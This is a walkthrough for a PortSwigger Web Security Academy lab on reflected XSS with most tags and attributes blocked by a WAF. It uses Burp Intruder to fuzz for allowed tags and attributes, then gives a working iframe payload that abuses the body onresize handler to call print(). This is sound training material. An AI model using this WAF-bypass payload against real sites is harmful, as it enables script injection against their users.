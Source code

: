# [Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)

## Lab

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the `print()` function.

## Analysis

tried:

```url
<https://id.web-security-academy.net/?search=%3Cscript%3Eprint%28%29%3C%2Fscript%3E>
```

result: `"Tag is not allowed"`

## Solutions

1. find allowed tags using burp's intruder:
    - positions: `GET /?search=<§§> HTTP/1.1`
    - payloads: all tags from [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    - result: `body` tag is allowed
2. try `<body onload=alert(1)>`:
    - result: `"Attribute is not allowed"`
3. find allowed attributes using burp's intruder:
    - positions: `GET /?search=%3Cbody+§onload§%3Dprint%28%29%3E HTTP/1.1`
    - payloads: all attributes from [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
    - result:
        - `onbeforeinput` is allowed: The DOM beforeinput event fires when the value of an `<input>`, or `<textarea>` element is about to be modified.
        - `onresize` is allowed: call a function when the browser window is resized.
4. upload this to exploit server

    ```html
    <iframe src="https://id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width=1>
    ```

    - `onload=this.style.width=1` automatically resize our exploit page, it triggers the onresize too.
    - send to victim => lab solved
